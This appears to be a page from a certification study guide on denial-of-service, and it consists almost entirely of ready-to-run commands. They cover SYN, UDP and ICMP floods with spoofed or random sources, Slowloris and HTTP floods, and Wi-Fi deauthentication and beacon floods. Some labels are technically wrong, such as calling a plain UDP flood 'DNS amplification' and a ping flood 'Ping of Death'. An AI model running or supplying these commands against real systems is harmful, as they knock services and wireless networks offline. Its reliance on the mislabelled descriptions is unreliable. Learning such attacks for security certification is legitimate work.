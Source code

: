 ## Module 10: Denial-of-Service

## Module 10: Denial-of-Service

  

### Network Layer DoS Attacks (Exam Weight: 40%)

```

# SYN Flood Attack

hping3 -S -p 80 --flood -a 192.168.1.100 10.10.10.10

  

# UDP Flood (DNS Amplification)

hping3 -2 -p 53 --flood --rand-source --data 1000 10.10.10.10

  

# ICMP Flood (Ping of Death)

ping -f -l 65500 10.10.10.10

```

### Application Layer DoS (Guaranteed Exam Task)

```

# Slowloris Attack

slowhttptest -c 1000 -H -i 10 -r 200 -t GET -u http://10.10.10.10 -x 24 -p 3

  

# HTTP Flood

goldeneye http://10.10.10.10 -m get -s 500 -w 100

```

### Wireless DoS (Exam Favorite)

```

# Deauthentication Attack

aireplay-ng --deauth 1000 -a AP:MAC wlan0mon

  

# Beacon Flood

mdk4 wlan0mon b -n "FakeAP" -c 6 -s 1000

```
